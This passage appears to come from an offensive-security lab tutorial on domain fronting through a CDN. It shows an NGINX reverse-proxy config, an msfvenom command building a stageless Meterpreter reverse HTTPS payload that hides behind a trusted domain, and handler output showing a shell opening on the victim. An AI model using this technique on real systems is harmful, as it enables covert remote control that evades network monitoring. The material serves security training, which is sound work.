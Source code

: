 Figure 46: good.com served

Finally, cdn123.offseccdn.com represents a CDN endpoint that is serving content for bad.com.

To represent a CDN network, we configured NGINX as a reverse proxy for this domain so it forwards all requests to the bad.com domain.

The configuration file related to this domain can be found on the Ubuntu machine at /etc/nginx/sites-available/cdn123.offseccdn.com:

```
server {
  listen 443 ssl;
  server_name cdn123.offseccdn.com;
  ssl_certificate     cdn.crt;
  ssl_certificate_key cdn.key;

  location / {
         proxy_pass https://bad.com
         proxy_ssl_verify off;
   }
}
```

> Listing 29 - NGINX configuration for cdn123.offseccdn.com

The domain is configured with the _proxy_pass_ setting. Since we are using self-signed certificates, we also need to set _proxy_ssl_verify_ to "off".

To recap, the overall idea is that we will connect to the trusted good.com domain and use the cdn123.offseccdn.com domain in the HTTP Host header to access the domain bad.com. As both of these domains are served from the same machine, the request will be forwarded to our Kali machine.

On our Kali machine, we'll create our reverse HTTPS Meterpreter shell, where we set good.com as the _LHOST_ and cdn123.offseccdn.com as the _HttpHostHeader_. We'll also configure a listener to handle this shell. Note that here we will use a stageless payload, so we don't need to configure the _OverrideLHOST_ and _OverrideRequestHost_ options we discussed in the previous section.

```
kali@kali:~$ msfvenom -p windows/x64/meterpreter_reverse_https HttpHostHeader=cdn123.offseccdn.com LHOST=good.com LPORT=443 -f exe > https-df.exe
```

> Listing 30 - Create an HTTPS reverse shell with msfvenom

Next, we'll transfer the payload to the victim and start a Wireshark capture so we can inspect traffic later. Finally, we'll run the payload.

```
msf5 exploit(multi/handler) > run

[-] Handler failed to bind to 206.124.122.115:443
[*] Started HTTPS reverse handler on https://0.0.0.0:443
[*] https://good.com:443 handling request from 192.168.120.21; (UUID: gklf4zr8) Redirecting stageless connection from /565XLYsZVn16GXsbJTPhXw-b83vlJF9C3018Kx2Qna04Mu7jN6LpH91I1kkDAww9cJHGlKu3zibA2e9ULmJ68e1ppmobSzbgMDuK2UIensZ3_C-LWScAH3a5lve with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://good.com:443 handling request from 192.168.120.21; (UUID: gklf4zr8) Attaching orphaned/stageless session...
[*] Meterpreter session 2 opened (192.168.119.120:443 -> 192.168.120.21:48490)

meterpreter > 
```
